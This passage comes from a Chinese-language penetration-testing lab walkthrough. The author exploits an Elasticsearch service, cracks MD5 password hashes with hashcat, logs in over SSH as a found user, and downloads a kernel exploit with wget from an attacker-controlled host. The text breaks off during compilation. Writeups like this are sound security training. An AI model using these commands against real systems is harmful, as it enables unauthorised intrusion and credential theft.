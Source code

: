 拷贝exp到当前目录![截屏2021-08-04 下午3.56.58](https://tva1.sinaimg.cn/large/008i3skNly1gt4t9igj4uj310r0u00yk.jpg)

成功~

此处介绍一个常见bug![img](https://tva1.sinaimg.cn/large/008i3skNly1gthb2aygd8j60tq0k5grn02.jpg)

​															原文https://www.anquanke.com/post/id/204066

原因是服务里面没有数据，所以不能通过search来搜索进而执行命令.

我们插入一条数据:

```shell
proxychains curl -XPOST 'http://172.17.0.2:9200/twitter/user/yren' -d '{ "name" : "Wu" }'
```

再次执行exp就可以啦~



执行ls命令,发现有一个好玩的东西,passwords文件!

我们来康康有什么!~![截屏2021-08-04 下午3.58.03](https://tva1.sinaimg.cn/large/008i3skNly1gt4tam27dbj31fs09cmzv.jpg)

哦~好多账号和密码,可惜是md5加密后的

我们在网上搜索md5在线解密,获得密码的原文

或者,文件提示密码格式为4个数字加四个小写字母

我们可以使用hashcat进行破解~

`ashcat -m 0 -a 3 3f8184a7343664553fcb5337a3138814 ?d?d?d?d?l?l?l?l --force`

获取到用户名与密码后,我们来看看有什么用吧~

注意到前文的端口扫描,发现有22ssh服务开启,我们尝试登陆

经过尝试后,发现只有john账户才可以登录,使用命令`proxychains ssh john@172.17.0.1`进行登录~

![截屏2021-08-04 下午4.21.40](https://tva1.sinaimg.cn/large/008i3skNly1gt4tz7gxlij31fs082tat.jpg)

登录账户后,日常看一看账户信息,很可惜的是没有sudo权限,不然我们已经拥有密码,可以直接拥有root权限

在使用`uname -a`查看内核信息时出现了惊喜,3.13.0的内核?!现在的内核已经到了5.x

这么老的内核可能会有漏洞

我们再一次使用`searchsploit Linux Kernel 3.13.0`搜索漏洞,搜到一堆漏洞,但大多数都是.c结尾的c文件,需要编译后才可使用

##### 没有gcc??!!

通过`wget http://10.0.0.12/exp.c`获得exp后,尝试使用gcc进行编译

**居然没有gcc?!**

这可就麻烦了,没有编译软件,怎么生成可执行二进制文件呢?

思索过后,我决定在本地将exp进行编译

尝试过后,我发现因为环境不一样,大部分exp在本地是无法编译的,

有一个exp可以在本地编译,但是其中代码中有调用了gcc
